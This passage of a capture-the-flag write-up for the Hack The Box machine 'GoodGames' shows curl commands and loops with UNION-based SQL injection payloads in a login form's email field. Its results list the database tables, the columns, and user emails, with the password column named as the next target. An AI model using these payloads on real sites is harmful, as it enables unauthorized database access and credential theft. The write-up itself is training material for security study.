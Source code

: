 ```bash
 ❯ curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,table_name from information_schema.tables limit 0,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}'
ADMINISTRABLE_ROLE_AUTHORIZATIONS
```
Now we can enumerate all the table names in the database:
```bash
❯ for i in `seq 0 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,table_name from information_schema.tables where table_schema=\"main\" limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
blog
blog_comments
user
```
Now, we can enumerate all the columns in the table `blog`:
```bash
❯ for i in `seq 1 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,column_name from information_schema.columns where table_name=\"blog\" limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
title
feature_image
category
category2
content
quote_content
quote_author
subtitle_image
subtitle
subtitle_text
video
subtitle_text2
created_by
created_at
```
From this column names, we don't think it can contain any valuable information:
```bash
❯ for i in `seq 1 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,column_name from information_schema.columns where table_name=\"blog_comments\" limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
blog_id
user
comment
is_accepted
created_at
```
There isn't any useful information, so we can just skip this table:
```bash
❯ for i in `seq 1 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,column_name from information_schema.columns where table_name=\"user\" limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
email
password
name
```
We see the field password, so we could leak the password of all the users with:
```bash
❯ for i in `seq 0 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,email from user limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
admin@goodgames.htb
revan@korriban.com
```